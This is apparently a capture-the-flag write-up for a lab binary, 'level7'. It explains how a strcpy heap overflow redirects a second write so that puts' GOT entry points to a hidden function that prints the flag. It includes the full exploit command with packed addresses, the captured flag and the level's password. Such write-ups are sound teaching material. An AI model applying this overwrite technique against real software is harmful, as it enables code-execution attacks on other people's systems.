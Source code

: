 # Level7
```bash
su level7 #f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

## Steps
We can see that the program `fgets()` the flag and saves it in `obj.c` but does nothing with it.  
There is however a function `m()` that prints `obj.c` but it is not called.  

This binary does 4 `malloc` calls in a row.

It uses `strcpy` to copy the strings in `av[0]` and `av[1]` to their respective allocated memory.  
`strcpy` is unprotected and will copy until it reaches the end of the string of crahes.  

We can overflow in during the first `strcpy`, to overwrite the address used as destination for the second `strcpy`.  
```
#1 malloc(8)	; 0x0804A008 ; 4 bytes store index 1, following 4 store malloc #2 return
#2 malloc(8)	; 0x0804A018 ; destination of strcpy argv[0]
#3 malloc(8)	; 0x0804A028 ; 4 bytes store index 2, following 4 store malloc #4 return
#4 malloc(8)	; 0x0804A038 ; destination of strcpy argv[1] 
```

`av[0]` will have the address of puts in the `GOT` with `20` padding so that the address overflows into malloc #3 and replaces the address used as parameter in the second `strcpy`.
`av[1]` will have the address to `m()` to be placed in the `GOT`.

```bash
$ ./level7 $(python -c "print 20 * 'A' + '\x08\x04\x99\x28'[::-1]") $(python -c "print '\x08\x04\x84\xf4'[::-1]")
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1581869221
```
